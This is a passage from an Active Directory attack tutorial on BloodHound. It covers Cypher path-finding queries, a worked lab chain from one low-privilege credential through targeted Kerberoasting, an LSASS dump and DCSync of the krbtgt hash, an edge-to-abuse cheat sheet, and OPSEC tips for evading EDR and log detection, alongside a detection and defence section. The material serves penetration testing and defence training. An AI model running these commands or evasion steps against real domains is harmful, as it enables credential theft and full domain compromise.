Modern BloodHound also reasons about **coercion** primitives (PetitPotam, PrinterBug, DFSCoerce) that force a computer — often a DC — to authenticate to a host you control, feeding an NTLM relay to LDAP/ADCS. These show up as `CoerceToTGT` / `CoerceAndRelayNTLMto*` edges and turn "I can reach the DC's RPC" into "I can relay the DC's machine account to ADCS and mint a DA cert" (the classic ESC8 chain with `ntlmrelayx` + `PetitPotam`).

The mental model to internalise: **most paths are `you → (some ACL edge) → a group or user → (MemberOf/AdminTo) → ... → Domain Admins`.** BloodHound's job is to find that chain; your job is to know that, say, a `GenericWrite` edge on a service account means "I can set an SPN and Kerberoast it," and to execute exactly that.

```mermaid
graph LR
    U["jsmith (you)"] -->|GenericWrite| SVC["svc_sql"]
    SVC -.->|"set SPN + Kerberoast"| CRACK["crack hash offline"]
    CRACK --> SVC2["svc_sql (owned)"]
    SVC2 -->|MemberOf| G["SQL Admins"]
    G -->|AdminTo| C1["SQL01"]
    C1 -->|HasSession| DA["Domain Admin"]
    DA -->|MemberOf| DAG["Domain Admins"]
```



---

## Part 8: Cypher — Querying the Graph Like an Expert

The prebuilt queries in the UI ("Find Shortest Paths to Domain Admins," "Find Kerberoastable Accounts") are just saved **Cypher** queries, and the moment you outgrow them you write your own. Cypher is Neo4j's query language; learning even a little turns BloodHound from a toy into a scalpel. Teaching it from scratch:

**The shape of every Cypher query:** `MATCH (a pattern) WHERE (conditions) RETURN (what you want)`. Nodes are in parentheses `(u:User)`, relationships in brackets `-[r:MemberOf]->`, and `*1..` means "one or more hops" (transitive).

### The bread-and-butter queries

```cypher
// 1. Shortest path from a specific owned user to any Domain Admin
MATCH (u:User {name:'JSMITH@CORP.LOCAL'}),
      (g:Group {name:'DOMAIN ADMINS@CORP.LOCAL'}),
      p = shortestPath((u)-[*1..]->(g))
RETURN p
```

```cypher
// 2. All Kerberoastable users (has SPN, not disabled)
MATCH (u:User)
WHERE u.hasspn = true AND u.enabled = true
RETURN u.name, u.serviceprincipalnames
ORDER BY u.name
```

```cypher
// 3. ASREP-roastable users (no Kerberos pre-auth required)
MATCH (u:User {dontreqpreauth:true, enabled:true})
RETURN u.name
```

```cypher
// 4. Everything my foothold user can reach in one hop (situational awareness)
MATCH p = (u:User {name:'JSMITH@CORP.LOCAL'})-[r]->(n)
RETURN p
```

```cypher
// 5. Users with a path to DA who are NOT in a protected/admin group already
MATCH (u:User),(g:Group {name:'DOMAIN ADMINS@CORP.LOCAL'})
WHERE NOT u.name CONTAINS 'ADMIN'
MATCH p = shortestPath((u)-[*1..]->(g))
RETURN u.name, length(p) AS hops
ORDER BY hops ASC
LIMIT 25
```

### Higher-value analyst queries

```cypher
// 6. Find every principal that can DCSync the domain (crown-jewel detection)
MATCH (n)-[:MemberOf|GetChanges|GetChangesAll*1..]->(d:Domain {name:'CORP.LOCAL'})
WITH n
MATCH (n)-[:GetChanges]->(d2:Domain)
MATCH (n)-[:GetChangesAll]->(d2)
RETURN DISTINCT n.name
```

```cypher
// 7. Passwords hiding in the 'description' field (classic quick win)
MATCH (u:User)
WHERE u.description IS NOT NULL AND
      (toLower(u.description) CONTAINS 'pass' OR u.description =~ '.*[Pp]wd.*')
RETURN u.name, u.description
```

```cypher
// 8. Computers where a Domain Admin has a live session (last-hop targets)
MATCH (c:Computer)-[:HasSession]->(u:User)-[:MemberOf*1..]->(g:Group {name:'DOMAIN ADMINS@CORP.LOCAL'})
RETURN c.name AS box, u.name AS da_logged_in
```

```cypher
// 9. Unconstrained delegation computers (coerce + capture TGT to DA)
MATCH (c:Computer {unconstraineddelegation:true})
RETURN c.name
```

```cypher
// 10. Shortest path to DA from ANY owned node (after you've marked owns in the UI)
MATCH p = shortestPath((n {owned:true})-[*1..]->(g:Group {name:'DOMAIN ADMINS@CORP.LOCAL'}))
RETURN p
```

```cypher
// 11. Which single group, if compromised, unlocks the most machines? (choke-point hunting)
MATCH (g:Group)-[:AdminTo]->(c:Computer)
RETURN g.name AS group, count(DISTINCT c) AS machines
ORDER BY machines DESC
LIMIT 10
```

```cypher
// 12. High-value targets (marked highvalue/tier-zero) reachable from my foothold
MATCH (u:User {name:'JSMITH@CORP.LOCAL'}),(t {highvalue:true})
MATCH p = shortestPath((u)-[*1..]->(t))
RETURN t.name, length(p) AS hops
ORDER BY hops ASC
```

```cypher
// 13. Stale computers (no logon in 90+ days) still trusted — quiet lateral targets
MATCH (c:Computer)
WHERE c.lastlogontimestamp < (datetime().epochSeconds - 7776000) AND c.enabled = true
RETURN c.name, c.operatingsystem
ORDER BY c.lastlogontimestamp ASC
```

**Pro workflow:** in the UI, right-click your foothold node → **Mark as Owned**. Then "Shortest Paths from Owned Principals" (query 10) instantly shows every route the graph knows from what you already control. As you compromise each hop, mark it owned too; the reachable frontier expands and new paths light up. This "owned frontier" discipline is exactly how a real AD assessment progresses.

**Blue team usage:** defenders run the *same* Cypher to find and cut edges before attackers use them — e.g. query 6 to enumerate everyone who can DCSync (should be a tiny, known list), or query 8 to find where Tier-0 admins are needlessly logging into Tier-2 workstations (a session-hygiene violation). BloodHound is a defensive tool wearing an offensive coat.

---

## Part 9: From Edge to Exploit — Turning Three Common Paths Into Access

Reading a path is half the skill; executing the edge is the other half. Here are the three edges you'll most often be handed, each turned into a real command sequence. These are the abuse primitives BloodHound's own "help" tab links to, made concrete.

### 9.1 `ForceChangePassword` — reset a user you don't own

BloodHound shows `jsmith -[ForceChangePassword]-> hjones`. You can set hjones's password without knowing the current one.

```bash
# From Linux, via Impacket (net rpc also works)
net rpc password "hjones" "NewP@ssw0rd!" -U "corp.local/jsmith%Summer2026!" -S dc01.corp.local
# or with bloodyAD:
bloodyAD -u jsmith -p 'Summer2026!' -d corp.local --host dc01.corp.local set password hjones 'NewP@ssw0rd!'
```

Now authenticate as hjones and continue the path. **Caveat / OPSEC:** resetting a real employee's password locks them out and generates a support ticket — extremely noisy and disruptive. In production prefer edges that don't disturb the user (Shadow Credentials, Targeted Kerberoast). BloodHound flags this trade-off in the edge's abuse info.

### 9.2 `GenericWrite` / `GenericAll` on a user → Targeted Kerberoast

BloodHound shows `jsmith -[GenericWrite]-> svc_report`. You can set a fake SPN on svc_report, request its service ticket, and crack it offline — no password reset, quiet.

```bash
# Set a temporary SPN, roast, then clean up — targetedKerberoast automates all three:
targetedKerberoast.py -u jsmith -p 'Summer2026!' -d corp.local --dc-ip 10.10.10.10
# Output: $krb5tgs$23$*svc_report*... hash
hashcat -m 13100 svc_report.hash /usr/share/wordlists/rockyou.txt
```

If it cracks, you now own svc_report with its real password and the SPN is removed — a clean, low-impact takeover.

### 9.3 `AddKeyCredentialLink` — Shadow Credentials (the modern favourite)

BloodHound shows `jsmith -[AddKeyCredentialLink]-> svc_web`. You write a certificate to the target's `msDS-KeyCredentialLink` and then authenticate *as that account* using PKINIT — no password touched, no lockout, very quiet.

```bash
# Certipy does the whole dance: add key cred, PKINIT auth, retrieve NT hash
certipy shadow auto -u jsmith@corp.local -p 'Summer2026!' -account svc_web -dc-ip 10.10.10.10
# ...
# [*] Got hash for 'svc_web@corp.local': aad3b435b51404eeaad3b435b51404ee:5f4dcc3b5aa765d61d8327deb882cf99
```

You now have svc_web's NT hash → pass-the-hash to the next node. This is why `GenericAll`/`GenericWrite`/`AddKeyCredentialLink` are the edges attackers love: they're reversible, quiet, and don't disrupt the user.



---

## Part 10: Handling Big, Messy, Real Graphs

Lab domains have 1,000 nodes. A Fortune 500 has millions of edges, and a naive "shortest path to DA" can return a hairball you cannot read or a query that times out. Real tradecraft is as much about *reducing* the graph as querying it.

- **Mark ownership aggressively.** Every credential you get, mark the node owned. Then query only from the owned frontier (Part 8, query 10). This collapses "all paths in the domain" into "paths I can actually walk."
- **Filter to enabled, non-stale principals.** Add `WHERE u.enabled = true` and check `lastlogon`/`pwdlastset`; a path through a disabled or long-dead account is a dead end that clutters results.
- **Prefer path *length* and *edge quietness* over raw shortest path.** A 2-hop path through `ForceChangePassword` may be louder than a 4-hop path through `GenericWrite`+Kerberoast. Sort by hops but *choose* by OPSEC.
- **Use `allShortestPaths` sparingly** on huge graphs — it's expensive. Pin endpoints (`{name:...}`) rather than scanning all users.
- **Set a query timeout and `LIMIT`.** Neo4j's `dbms.transaction.timeout`; always `LIMIT` exploratory queries so a bad pattern doesn't hang the browser.
- **Increase Neo4j heap for large imports.** In `neo4j.conf`, raise `server.memory.heap.max_size` (e.g. `4G`) and `server.memory.pagecache.size`; default heap chokes on multi-hundred-MB ZIPs.
- **Collect incrementally.** `DCOnly` first (cheap, fast, ACL-rich), then targeted `Session -stealth` only at the specific hosts your candidate path needs — never `-c All` across a 15,000-host estate on the first pass.

**Common failure modes and fixes:**

| Symptom | Likely cause | Fix |
|---|---|---|
| Graph imports 0 nodes | Collector/UI version mismatch | Match SharpHound v2 ↔ CE; re-collect |
| `Found 0 computers` (bloodhound-python) | Wrong `-ns` / DNS can't resolve host records | Point `-ns` at the DC IP; add `--dns-tcp` through tunnels |
| No `HasSession` edges | You ran `DCOnly` (by design) or KB5008383 hardening | Run targeted `Session`; expect fewer sessions on patched DCs |
| No `AdminTo` edges | SAMR blocked / not admin on hosts | Rely on `GPOLocalGroup` (LDAP-derived) instead |
| Query hangs forever | Unbounded `[*]` on huge graph | Pin endpoints, add `LIMIT`, raise heap |
| ADCS/ESC edges missing | Old collector or `-c` without CertServices | Use current SharpHound/Certipy; collect `CertServices` |

---

## Part 11: Detection & Defense Angle (Consolidated)

BloodHound collection is *observable* — the whole point of this section is that the same graph model that helps attackers is a gift to defenders, and the collection itself is one of the more detectable actions in an AD kill chain. This is where blue, purple, and OPSEC-aware red all meet.

### Detecting collection

- **LDAP reconnaissance signature.** SharpHound/bloodhound-python issue a burst of LDAP searches that enumerate essentially every object class and read security descriptors. On the DC, **Directory Service Access** auditing (Event ID **4662**) fires for object-access, and with **SACL**s on sensitive objects you can catch reads of the domain head's ACL. A single account reading the *entire* directory (all users, groups, computers, GPOs, and their DACLs) within seconds is high-signal — Microsoft Defender for Identity and many EDRs ship a dedicated "AD attributes reconnaissance / BloodHound-style enumeration" alert keyed on exactly this LDAP pattern.
- **Session/host fan-out.** The loud `Session`/`LocalAdmin` methods produce thousands of SMB (445) connections and SAMR/SRVSVC RPC calls fanning out from one source to every host in minutes. Network sensors (Zeek) and EDR see one workstation suddenly touching the whole estate — an anomaly no normal user produces. **Event ID 5145** (network share object checked) and RPC telemetry light up.
- **Honey signals.** A **honey user** with an SPN (fake Kerberoastable account) or a decoy object with a tempting ACL, wired to alert on *any* access, catches collection and abuse cheaply. If anything ever queries or roasts the honey account, you have an intruder — false-positive rate near zero.

### Detecting the abuse that follows

| Attack the graph reveals | Windows telemetry to alert on |
|---|---|
| Kerberoast (`hasspn`) | 4769 TGS requests with RC4 (`0x17`) encryption, many SPNs from one host |
| ASREP-roast (`dontreqpreauth`) | 4768 AS-REQ without pre-auth |
| DCSync | 4662 with replication GUIDs (`GetChanges`/`GetChangesAll`) from a non-DC source |
| Password reset (`ForceChangePassword`) | 4724 / 4738 account-change events |
| Shadow Credentials | 5136 modify of `msDS-KeyCredentialLink`; 4768 PKINIT logon |
| RBCD | 5136 modify of `msDS-AllowedToActOnBehalfOfOtherIdentity` |

### Defending with the graph (the real fix)

Detection buys time; **cutting edges** is the cure. BloodHound Enterprise exists to do this continuously, but you can do it with CE and Cypher:

- **Find and remove the choke points.** Query for the edges that the most paths traverse (high-betweenness nodes). Removing one over-permissioned group can sever thousands of paths — far cheaper than fixing every node.
- **Enforce tiering.** Query 8 (DAs with sessions on Tier-2 boxes) surfaces the #1 real-world sin: Domain Admins logging into workstations, seeding credentials for theft. Fix with a tiered admin model and Authentication Silos / Protected Users.
- **Prune ACLs.** `GenericAll`/`WriteDacl`/`WriteOwner` held by non-admins are almost always over-delegation from a forgotten project. Enumerate and revoke.
- **Kill the legacy stuff.** Unconstrained delegation on anything but a DC; RC4-only service accounts; `dontreqpreauth`; `msDS-KeyCredentialLink` writes by non-admins.
- **LAPS everywhere.** `AdminTo` sprawl from a shared local admin password collapses the moment every machine has a unique, rotated LAPS password.



---

## Part 12: Building the Lab

You cannot practice BloodHound safely on anything but your own domain. Build a tiny AD lab, populate it with deliberately vulnerable relationships, and attack it end to end.

**Minimum lab:**

- **DC01** — Windows Server (2019/2022), promote to a domain controller for `corp.local`.
- **WS01** — a domain-joined Windows 10/11 workstation (for `HasSession`/`AdminTo` practice).
- **Kali** — your attacker box with `bloodhound-python`, Impacket, Certipy, `netexec`.

**Seed vulnerable edges** (PowerShell on DC01, as domain admin — you are building targets):

```powershell
# A low-priv user you'll start from
New-ADUser -Name "jsmith" -SamAccountName jsmith -AccountPassword (ConvertTo-SecureString 'Summer2026!' -AsPlainText -Force) -Enabled $true

# A Kerberoastable service account (SPN + weak password)
New-ADUser -Name "svc_report" -SamAccountName svc_report -AccountPassword (ConvertTo-SecureString 'Password1' -AsPlainText -Force) -Enabled $true
setspn -a HTTP/report.corp.local svc_report

# Give jsmith GenericAll over svc_report (an ACL edge to abuse)
$acl = Get-Acl "AD:$((Get-ADUser svc_report).DistinguishedName)"
$sid = (Get-ADUser jsmith).SID
$rule = New-Object System.DirectoryServices.ActiveDirectoryAccessRule($sid,'GenericAll','Allow')
$acl.AddAccessRule($rule); Set-Acl "AD:$((Get-ADUser svc_report).DistinguishedName)" $acl

# Put svc_report in a group that is AdminTo WS01, and log a DA into WS01 to seed a session
Add-ADGroupMember "Administrators" svc_report
```

Now you have a deliberate path: `jsmith -[GenericAll]-> svc_report -[MemberOf]-> Administrators -[AdminTo]-> WS01 -[HasSession]-> Domain Admin`. Collect it, see it, walk it. To go further, the fastest turnkey option is **GOAD (Game of Active Directory)** or the vulnerable-AD scripts, which auto-provision a rich, multi-domain, edge-dense forest purpose-built for BloodHound practice.

---

## Part 13: Fully Worked Lab — One Credential to a Mapped Path to Domain Admin

Here is the entire flow against the lab above, from a single low-priv credential on Kali to a rendered Domain Admin path and a working DA-equivalent primitive. Every command and its realistic output.

**Starting position:** you have `corp.local\jsmith:Summer2026!` (from Responder, a password spray, or the client). You are on Kali at `10.10.14.5`; the DC is `10.10.10.10`.

### Step 1 — Validate the credential and get situational awareness

```bash
netexec smb 10.10.10.10 -u jsmith -p 'Summer2026!'
```
```
SMB   10.10.10.10  445  DC01  [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:corp.local) (signing:True) (SMBv1:False)
SMB   10.10.10.10  445  DC01  [+] corp.local\jsmith:Summer2026! 
```

### Step 2 — Collect the graph (quiet first)

```bash
bloodhound-python -u jsmith -p 'Summer2026!' -d corp.local -ns 10.10.10.10 -c DCOnly --zip
```
```
INFO: Found AD domain: corp.local
INFO: Connecting to LDAP server: dc01.corp.local
INFO: Found 217 computers
INFO: Found 1043 users
INFO: Found 51 groups
INFO: Compressing output into 20260101093012_bloodhound.zip
```

### Step 3 — Load into BloodHound CE and verify

Upload the ZIP in the CE UI (*Administration → File Ingest*), then confirm nodes landed:

```cypher
MATCH (n) RETURN labels(n)[1] AS t, count(*) ORDER BY 2 DESC
```
```
User      1043
Computer   217
Group       51
...
```

### Step 4 — Mark jsmith owned, find the path

Right-click `JSMITH@CORP.LOCAL` → **Mark as Owned**. Then:

```cypher
MATCH p = shortestPath((u:User {name:'JSMITH@CORP.LOCAL'})-[*1..]->(g:Group {name:'DOMAIN ADMINS@CORP.LOCAL'}))
RETURN p
```

The graph renders:

```
JSMITH --GenericAll--> SVC_REPORT --MemberOf--> ADMINISTRATORS --AdminTo--> WS01 --HasSession--> ADMINISTRATOR (Domain Admin)
```

### Step 5 — Abuse edge 1: GenericAll → Targeted Kerberoast svc_report

```bash
targetedKerberoast.py -u jsmith -p 'Summer2026!' -d corp.local --dc-ip 10.10.10.10
```
```
[*] Starting kerberoast attacks
[*] Fetching usernames with write privileges from LDAP
[+] Writing SPN to svc_report and requesting ticket
$krb5tgs$23$*svc_report$CORP.LOCAL$...<hash>...
[*] SPN removed successfully for svc_report
```
```bash
hashcat -m 13100 svc_report.txt /usr/share/wordlists/rockyou.txt --quiet
```
```
$krb5tgs$23$*svc_report...:Password1
```

svc_report's password is `Password1`. Mark `SVC_REPORT` owned in the UI.

### Step 6 — Abuse edge 2/3: svc_report is admin on WS01, where a DA has a session

svc_report is in `Administrators` (AdminTo WS01). Dump WS01's LSASS to grab the DA's credential material:

```bash
netexec smb 10.10.10.30 -u svc_report -p 'Password1' -M lsassy
```
```
LSASSY  10.10.10.30  CORP\Administrator  aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
```

That `Administrator` is a Domain Admin whose session was on WS01. You now hold a DA NT hash.

### Step 7 — Prove domain dominance with DCSync

```bash
secretsdump.py corp.local/Administrator@10.10.10.10 -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 -just-dc-user krbtgt
```
```
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:7c4...  <- krbtgt hash = Golden Ticket capability
```

You went from one low-priv credential to the `krbtgt` hash — total domain compromise — and every hop was a BloodHound edge you *read first, then walked*. That is the entire discipline: the graph told you exactly which three edges out of thousands mattered, and in what order.



---

## Part 14: OPSEC Discipline for Collection

Because collection is the loudest, most detectable action in this whole workflow, treat it with the same care you'd give a payload.

- **Default to `DCOnly`.** No host fan-out, LDAP only, ACL-rich. Escalate to `Session`/`All` only when a specific path demands it.
- **Throttle and jitter** (`--throttle 1000 --jitter 30`) so the LDAP burst doesn't look like a scanner's metronome.
- **Randomise filenames** (`--randomfilenames`) to defeat trivial `*_BloodHound.zip` detections, and stage the ZIP somewhere non-obvious (`C:\Windows\Temp`, not the Desktop).
- **Collect from a plausible host.** An LDAP recon burst from a *server* an admin uses is less anomalous than from a random workstation that never queries the directory.
- **Prefer in-memory** (`SharpHound.ps1` reflective load) to avoid dropping a flagged binary — but know AMSI/EDR may catch the script; obfuscation is an arms race, keep it lab-scoped.
- **Clean up.** Delete the ZIP from the target after exfil; if you set a temporary SPN or reset a password, revert it (targetedKerberoast auto-removes its SPN; note anything you can't cleanly undo).
- **Time it.** Collecting during business hours hides in normal LDAP noise better than a 3 a.m. burst that stands alone in the logs.

---

## Part 15: Final Revision / Summary

- **AD is a directed graph.** Nodes are principals/objects; edges are attack-meaningful permissions. Compromise is a *path*, and BloodHound computes it.
- **Collection ≠ analysis.** Collectors (SharpHound, bloodhound-python, RustHound) touch the domain and are *loud*; the graph DB and UI are offline and silent. All your risk is in collection.
- **`-c DCOnly` is the professional default:** LDAP-only, ACL-rich, no host fan-out. Escalate to `Session`/`All` only for a specific path.
- **Match collector version to UI version** or the graph imports empty — verify with a `MATCH (n) RETURN count(*)` before anything else.
- **Know your edges cold.** `GenericAll`/`GenericWrite`/`WriteDacl`/`WriteOwner`/`ForceChangePassword`/`AddKeyCredentialLink`/`AllowedToDelegate`/`DCSync` each map to a specific abuse primitive. Reading the edge tells you the command.
- **Prefer quiet, reversible edges** (Shadow Credentials, Targeted Kerberoast) over disruptive ones (password reset).
- **Cypher is the scalpel.** Mark owned nodes, query the owned frontier, filter to enabled principals, sort by hops but *choose* by OPSEC.
- **Detection is real:** LDAP recon bursts (4662), host fan-out (5145/RPC), and abuse-specific events (4769 Kerberoast, 4662 DCSync, 5136 Shadow Creds/RBCD). Honey users catch it cheaply.
- **Defenders use the same graph** to cut choke-point edges — the only durable fix.

---

## Part 16: Cheat Sheet / Quick Reference

**Collect (Windows / SharpHound):**
```powershell
.\SharpHound.exe -c DCOnly --randomfilenames --outputdirectory C:\Windows\Temp\   # quiet
.\SharpHound.exe -c All --zipfilename full                                        # everything
Invoke-BloodHound -CollectionMethod DCOnly -OutputDirectory C:\Windows\Temp\      # in-memory
```

**Collect (Linux / bloodhound-python):**
```bash
bloodhound-python -u USER -p 'PASS' -d corp.local -ns DC_IP -c DCOnly --zip
bloodhound-python -u USER --hashes :NTHASH -d corp.local -ns DC_IP -c All --zip   # PtH
proxychains -q bloodhound-python -u USER -p 'PASS' -d corp.local -ns DC_IP --dns-tcp -c DCOnly --zip
```

**Stand up CE:**
```bash
curl -L https://ghst.ly/getbhce -o docker-compose.yml && docker compose up -d
docker compose logs bloodhound | grep -i "Initial Password"
```

**Essential Cypher:**
```cypher
MATCH (n) RETURN labels(n)[1], count(*) ORDER BY 2 DESC          -- verify import
MATCH p=shortestPath((u:User {name:'X@CORP.LOCAL'})-[*1..]->(g:Group {name:'DOMAIN ADMINS@CORP.LOCAL'})) RETURN p
MATCH (u:User {hasspn:true, enabled:true}) RETURN u.name          -- Kerberoastable
MATCH (u:User {dontreqpreauth:true}) RETURN u.name                -- ASREP-roastable
MATCH p=shortestPath((n {owned:true})-[*1..]->(g:Group {name:'DOMAIN ADMINS@CORP.LOCAL'})) RETURN p
MATCH (c:Computer {unconstraineddelegation:true}) RETURN c.name    -- unconstrained deleg
```

**Edge → abuse quick map:**

| Edge | Do this |
|---|---|
| `GenericAll`/`GenericWrite` (user) | Targeted Kerberoast or Shadow Credentials (Certipy) |
| `WriteDacl`/`WriteOwner` | Grant self GenericAll, then above |
| `ForceChangePassword` | `net rpc password` / bloodyAD (noisy) |
| `AddKeyCredentialLink` | `certipy shadow auto` |
| `AddMember`/`AddSelf` | Add self to the group |
| `AllowedToDelegate` | S4U impersonation (getST) |
| `AddAllowedToAct` | RBCD (rbcd.py + getST) |
| `AdminTo` + `HasSession` | Dump LSASS (lsassy/nanodump), steal the session's creds |
| DCSync rights | `secretsdump -just-dc` → krbtgt → Golden Ticket |

---

## Part 17: Common Pitfalls

- **Empty graph after import** → collector/UI version mismatch. Match SharpHound v2 ↔ CE; re-collect.
- **`Found 0 computers`** in bloodhound-python → wrong `-ns`. It must be the DC's IP so domain hostnames resolve; add `--dns-tcp` through tunnels.
- **Running `-c All` first on a big estate** → thousands of host connections, instant EDR alert. Always `DCOnly` first.
- **Chasing the shortest path blindly** → a 2-hop `ForceChangePassword` can be far louder and more disruptive than a 4-hop Kerberoast path. Choose by OPSEC, not just length.
- **Forgetting to mark owned nodes** → you re-derive paths by hand instead of letting "paths from owned" do it.
- **Stale data** → sessions are a point-in-time snapshot. A DA who was logged in an hour ago may be gone; re-collect `Session` (or `--loop`) before betting a hop on it.
- **Ignoring `description` fields** → cleartext passwords hide there constantly; always run the description query.
- **Leaving artifacts** → the ZIP on the target and a temporary SPN you forgot to remove are both IOCs. Clean up.
- **Assuming DCOnly sees sessions** → it doesn't, by design. No `HasSession` edges is expected, not a bug.

---

## Part 18: Practice Labs & Resources

Train the *specific* skill of this chapter — collect, read the graph, walk an edge — not generic AD:

- **GOAD (Game of Active Directory)** — the gold standard multi-domain vulnerable forest, purpose-built for BloodHound path practice. Deploy, collect, and find every intended path.
- **TryHackMe** — *Attacktive Directory* (Kerberoast/AS-REP + enum feeding BloodHound), *Post-Exploitation Basics* (explicitly walks BloodHound + Cypher), *Breaching Active Directory*, and the *Throwback* network for end-to-end pathing.
- **HackTheBox** — *Forest*, *Sauna*, *Active*, *Blackfield*, *Cascade*, *Support*, *Return* (all classic BloodHound-driven paths: AS-REP, DCSync, GenericAll, Shadow Credentials, LAPS). The *Dante* and *Offshore* pro labs for full-domain graph work.
- **HTB Academy** — *Active Directory BloodHound* module and *Active Directory Enumeration & Attacks* path (hands-on collection + Cypher).
- **Certified: CRTP / CRTE (Altered Security)** and **OSCP/PEN-200 AD chapters** — both lean heavily on BloodHound for the AD sets.
- **The SpecterOps blog and BloodHound docs** — the canonical edge/abuse reference; the "Cypher for Defenders" and "Attack Path Management" posts turn the same graph into a defensive workflow.
- **Cypher practice:** load any collection into Neo4j Browser (`http://localhost:7474`) and rewrite each prebuilt query from memory until Cypher's `MATCH … WHERE … RETURN` shape is automatic.

The next chapter continues the Active Directory attack notebook, moving from *mapping* the paths to systematically *exploiting* the Kerberos-specific edges this graph surfaces — Kerberoasting, AS-REP roasting, and delegation abuse — in full depth.
